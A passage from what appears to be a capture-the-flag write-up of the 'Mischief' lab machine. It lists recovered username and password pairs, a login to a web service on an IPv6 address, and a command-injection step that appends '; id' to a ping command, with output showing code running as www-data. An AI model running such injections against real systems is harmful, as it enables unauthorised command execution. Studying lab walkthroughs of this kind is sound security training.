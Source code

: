   __NOTE(S)__:
  - Two sets of credentials are found:
    
    Username | Password
    --- | ---
    loki | godofmischiefisloki
    loki | trickeryanddeceit

### TCP PORT 80 (http, IPv6)

- __`http://[dead:beef:0000:0000:0250:56ff:fea4:29f2]/`__

  ![80 Landing Page](./screenshots/15_mischief/80_landing_page.png)

- Attempt Logging in using the credentials found on __PORT 3366__

  ![80 Command Execution](./screenshots/15_mischief/80_command_execution.png)
  
  __NOTE(S)__:
  - The credential pair, __`administrator : trickeryanddeceit`__, worked.
  - So far, only the __`ping`__ command could be executed.
  - __`In my home directory, i have my password in a file called credentials, Mr Admin`__

---

### PART 3 : EXPLOITATION

- Bypass the command execution in the service running on __port 80__:
  ```console
  $ ping -c 2 127.0.0.1; id
    
    PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.020 ms
    64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.061 ms

    --- 127.0.0.1 ping statistics ---
    2 packets transmitted, 2 received, 0% packet loss, time 1028ms
    rtt min/avg/max/mdev = 0.020/0.040/0.061/0.021 ms
    Command was executed succesfully!

  $ id; ping -c 2 127.0.0.1
    
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    Command was executed succesfully!

  ```
  __NOTE(S)__:
  - The command execution could be bypassed by using a __`;`__.
  - The first command is the only one being executed

---